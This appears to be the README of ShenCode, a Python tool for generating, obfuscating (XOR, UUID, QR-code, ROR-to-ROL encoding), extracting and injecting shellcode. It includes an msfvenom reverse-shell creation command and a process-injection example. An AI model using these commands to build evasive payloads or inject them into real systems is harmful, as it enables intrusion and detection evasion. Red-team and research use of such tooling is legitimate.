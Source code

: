 # ShenCode

A multi purpose tool for shellcode operations


![](shencode-050.png)

## Features

### Version 0.5.0

- create
	- create shellcodes with msfvenom
	- create in-memory XOR Decoder (for technical details, visit this [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_polymorphic_in_memory_decoder))
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation - Please, check out my [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_shellcode_als_uuids_tarnen_-_teil_1) about this encoder
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- Migrate: `extract, inject, msf, stub, ror2rol, bin2sc`
- class.nstate global class
- Update README
- Update Wiki
- Code cleanup
- Update requirements.txt
- ~~Migrate: `uuid, qrcode, xor`~~
- ~~Dynamic argparser~~

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **QR-Code**      | `encode --filename shell.raw --outputfile shell.enc --qrcode`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Make sure your metasploit binary folder is in your PATH variable

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)

